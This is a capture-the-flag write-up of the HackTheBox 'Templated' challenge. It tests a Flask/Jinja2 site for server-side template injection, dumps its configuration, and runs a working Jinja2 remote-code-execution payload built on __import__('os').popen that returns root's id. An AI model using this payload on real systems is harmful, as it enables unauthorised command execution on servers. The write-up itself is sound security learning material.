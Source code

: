 # Templated
Easy web challenge from HTB

## Introduction
 CHALLENGE DESCRIPTION: Can you exploit this simple mistake?

## Vulnerability finding
We get an IP and a port, if we go there we can see the following page:

![Site still under construction... Proudly powered by Flask/Jinja2](site.png)

As we can see, we are attacking a web written using Jinja2, a template engine for python webpages.
If we have this and the name of the challenge ("Templated") on mind, we first think on a Server Side Template Injection attack.

If we try to reach the page http://142.93.41.143:30851/error for example, we'll receive a 404 error and "The page 'error' could not be found". 
Now we try to generate a SSTI attack with the following payload:
http://142.93.41.143:30851/%7B%7B7*7%7D%7D &rarr; "The page '49' could not be found"

It's vulnerable, let's hack it!

## Attack
We can search for payloads and more info about the vulnerability on this page:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/

Now we get the configuration with:
http://142.93.41.143:30851/%7B%7Bconfig%7D%7D &rarr; The page '<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>' could not be found

We can get a RCE with the following payload:
http://142.93.41.143:30851/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('id').read()%7D%7D:
"The page 'uid=0(root) gid=0(root) groups=0(root) ' could not be found"

As we can see, the are running this as a root... if we list the directory ("/") we can see a file called "flag.txt"
![Cat to the flag](flag.txt)
